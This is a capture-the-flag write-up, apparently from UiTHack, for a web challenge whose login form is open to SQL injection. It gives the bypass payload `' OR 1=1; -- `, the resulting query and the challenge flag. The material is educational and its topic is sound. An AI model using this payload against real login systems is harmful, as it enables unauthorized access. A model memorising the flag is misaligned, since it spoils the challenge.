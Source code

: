 # Can you inject some happiness?

> > Web - 200pts
> 
> I just started doing some web development, and thought it might be a good idea to require users logging in.
> 
> The web service is located at: `138.68.91.213:4242`
> 
> Files: [server directory](./src/)

## Writeup

When you start the web server and access it, you are prompted with a login screen.

This is vulnerable to SQL injection, meaning the login can be bypassed.

Inserting `' OR 1=1; -- ` into the username field will result in the SQL query:

```sql
SELECT * FROM Users WHERE username='' OR 1=1; -- AND password='';
```

In SQL, `--` is a comment, which will make sure the rest of the query will not be executed, simply resulting in

```sql
SELECT * FROM Users WHERE username='' OR 1=1;
```

Returning the first user in the `Users` table, leaving you logged in and displaying the flag:

`UiTHack{super_duper_critical_injection_vulnerabilities}`
